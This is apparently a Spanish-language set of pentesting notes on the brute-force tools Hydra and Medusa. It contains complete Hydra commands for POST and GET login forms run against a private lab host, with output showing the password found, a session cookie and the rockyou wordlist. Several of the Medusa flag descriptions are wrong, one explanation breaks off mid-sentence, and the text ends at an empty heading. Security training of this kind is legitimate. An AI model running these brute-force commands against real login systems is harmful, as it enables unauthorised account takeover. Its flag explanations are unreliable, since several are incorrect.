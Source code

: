 # TOOLS FORCE BRUTE ATTACK
## HYDRA
---
**Hydra.-** es una herramienta de prueba de penetración (pentesting) que se utiliza para realizar ataques de fuerza bruta a sistemas de autenticación. Es una herramienta de línea de comandos que permite automatizar el proceso de adivinación de contraseñas para varios protocolos de autenticación, incluyendo FTP, SSH, Telnet, HTTP, HTTPS, entre otros.
### POST-FORM
#### Ejecución
``` java
hydra 192.168.200.152 http-post-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -L user.txt -P password.txt   
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-15 11:03:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 78 login tries (l:3/p:26), ~5 tries per task
[DATA] attacking http-post-form://192.168.200.152:80/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed
[80][http-post-form] host: 192.168.200.152   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-02-15 11:03:20
```
En la línea de comando de Hydra, los flags significan lo siguiente:

>* **192.168.200.152.-** Indica la dirección IP del servidor que se va a atacar.
>* **http-post-form.-** Indica el protocolo que se va a utilizar para la comunicación con el servidor. En este caso, se utilizará el protocolo HTTP y se enviarán los datos de inicio de sesión mediante un formulario HTTP POST.
>* **"/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed":** Esta cadena de caracteres representa la URL y los datos del formulario que se utilizarán en el ataque. Se especifica el archivo login.php y se definen los campos del formulario de inicio de sesión, incluyendo el nombre de usuario, la contraseña y el botón de inicio de sesión. "Login failed" indica el mensaje que se mostrará en caso de que el intento de inicio de sesión falle.
>* **-L user.txt:** Especifica el archivo que contiene una lista de nombres de usuario que se utilizarán en el ataque.
>* **-P password.txt:** Especifica el archivo que contiene una lista de contraseñas que se utilizarán en el ataque.
### GET_FORM
#### Ejecución
``` java
hydra 192.168.200.152 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low:F=Username and/or password incorrect" -L user.txt -P /usr/share/wordlists/rockyou.txt   
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-15 12:57:21
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 43033197 login tries (l:3/p:14344399), ~2689575 tries per task
[DATA] attacking http-get-form://192.168.200.152:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2; security=low:F=Username and/or password incorrect
[80][http-get-form] host: 192.168.200.152   login: admin   password: password
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Este comando usa la herramienta Hydra para realizar un ataque de fuerza bruta en un formulario de inicio de sesión en una página web alojada en la dirección IP 192.168.200.152.

>* **"http-get-form".-** especifica que se debe usar el método HTTP GET para enviar el formulario de inicio de sesión.
>* **"/vulnerabilities/brute/".-** es la URL del formulario de inicio de sesión.
>* **":username=^USER^&password=^PASS^&Login=Login".-** son los campos del formulario de inicio de sesión que se van a atacar. Los valores de usuario y contraseña se reemplazarán con los valores del archivo de usuario y de la lista de contraseñas proporcionados.
>* **"H=Cookie:PHPSESSID=o39naa5urd4qrgkfo5n6fv4jf2;.-** security=low" son las cookies que se van a enviar junto con la solicitud de inicio de sesión. En este caso, se envía una cookie PHPSESSID con un valor específico y se establece el nivel de seguridad en "bajo".
>* **"F=Username and/or password incorrect".-** es el mensaje que se muestra en la página web cuando se ingresan credenciales incorrectas.
>* **"-L user.txt".-** especifica la ruta del archivo que contiene los nombres de usuario que se utilizarán para el ataque de fuerza bruta.
>* **"-P /usr/share/wordlists/rockyou.txt".-** especifica la ruta de la lista de contraseñas que se utilizará para el ataque de fuerza bruta. En este caso, se utiliza la popular lista de 

## MEDUSA
---
**Medusa.-** es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta contra sistemas y aplicaciones. Su función principal es intentar adivinar credenciales de inicio de sesión, como nombres de usuario y contraseñas, mediante la repetición de pruebas con diferentes combinaciones de credenciales.

Medusa puede trabajar con varios protocolos, incluyendo FTP, SSH, Telnet, SMTP, HTTP, HTTPS, SMB, y muchos otros. La herramienta puede utilizar varios métodos de autenticación, como diccionarios de contraseñas, ataque por fuerza bruta y ataques de diccionario personalizado. Además, Medusa es compatible con varias plataformas y sistemas operativos, incluyendo Linux, Windows y macOS.

Es importante tener en cuenta que Medusa debe ser utilizado únicamente con fines éticos y legales. Es necesario obtener la autorización previa del propietario del sistema o aplicación que se va a probar antes de utilizar cualquier herramienta de prueba de penetración.
>* -h: Este flag indica el host o dirección IP del sistema o aplicación que se va a atacar.
>* -U: Este flag especifica el archivo que contiene una lista de nombres de usuario que se probarán en el ataque.
>* -P: Este flag especifica el archivo que contiene una lista de contraseñas que se probarán en el ataque.
>* -M: Este flag indica el protocolo que se utilizará para comunicarse con el sistema o aplicación que se va a atacar, como http, ftp, ssh, telnet, etc.
>* -m: Este flag indica el modo de autenticación que se utilizará para el ataque, como diccionario, fuerza bruta, etc.
>* -T: Este flag indica el número máximo de hilos (threads) que se utilizarán en el ataque.
>* -f: Este flag indica que se deben utilizar las contraseñas de los usuarios proporcionados en el archivo de nombres de usuario.
>* -e: Este flag indica que se deben utilizar contraseñas vacías en el ataque.
>* -B: Este flag indica que se deben utilizar técnicas de ataque especiales, como ataque de diccionario personalizado, fuerza bruta por intervalo de tiempo, etc.
>* -C: Este flag indica que se deben utilizar diferentes códigos de respuesta del servidor para identificar si una prueba de credenciales ha sido exitosa o no.

### Ejecución